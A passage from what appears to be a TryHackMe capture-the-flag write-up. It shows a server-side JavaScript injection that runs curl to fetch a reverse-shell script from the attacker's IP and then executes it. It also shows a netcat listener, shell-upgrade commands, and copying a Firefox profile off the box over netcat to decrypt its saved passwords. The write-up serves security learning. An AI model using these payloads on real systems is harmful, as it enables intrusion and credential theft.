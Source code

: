 Then I use the vulnerability to execute two commands on the server: download the file and execute it.

```
# Download the file
POST /api/items?cmd=require(%22child_process%22).exec(%22curl%2010.13.3.36/rev.sh%20%3E%20/tmp/rev.sh%22)

# Execute it to open the reverse shell
POST /api/items?cmd=require(%22child_process%22).exec(%22/bin/sh%20/tmp/rev.sh%22) HTTP/1.1
```

I finally got my reverse shell, and the user flag.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.70.208 57468

whoami
user

ls /home/user
user.txt

cat /home/user/user.txt
THM{USER_FLAG}
```

## Lateral Movement
Now that I was logged on the machine, the first thing I did was to solidify my shell. 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Hit CTRL-z to send the connection to the background. They foreground it again.
```bash
stty raw -echo;fg
```

Then I started looking around the machine. I saw that there was a `.firefox` folder in the user's home directory. Those often contains passwords that can be extracted with [Firefox Decrypt](https://github.com/Unode/firefox_decrypt).

I compressed the folder and downloaded it to my machine using [netcat](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/).

On the receiving machine run this command to wait for the connection and save the data to a file.
```bash
nc -l -p 1234 > ffProfile.tar.gz
```

On the sending machine, open the connection and send the file.
```bash
nc -w 3 10.13.3.36 1234 < ffProfile.tar.gz 
```

